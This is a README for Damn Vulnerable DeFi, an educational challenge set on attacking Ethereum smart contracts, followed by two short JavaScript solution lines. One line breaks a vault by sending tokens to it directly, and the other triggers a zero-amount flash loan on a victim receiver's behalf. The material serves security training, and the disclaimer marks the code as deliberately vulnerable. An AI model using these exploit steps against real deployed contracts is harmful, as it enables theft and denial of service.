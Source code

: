 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

Fix #1:        
````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Fix #2:

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

